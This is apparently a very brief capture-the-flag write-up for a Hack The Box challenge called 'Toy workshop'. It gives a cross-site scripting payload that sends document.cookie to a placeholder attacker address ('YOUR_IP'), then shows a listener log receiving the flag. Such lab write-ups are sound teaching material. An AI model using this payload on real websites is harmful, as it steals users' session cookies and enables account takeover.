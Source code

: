 # Toy workshop



XSS hunter

`<script>window.location="YOUR_IP/?flag="+document.cookie</script>`


Connection received on 178.62.7.184 49004
GET /?flag=flag=HTB{3v1l_3lv3s_4r3_r1s1ng_up!}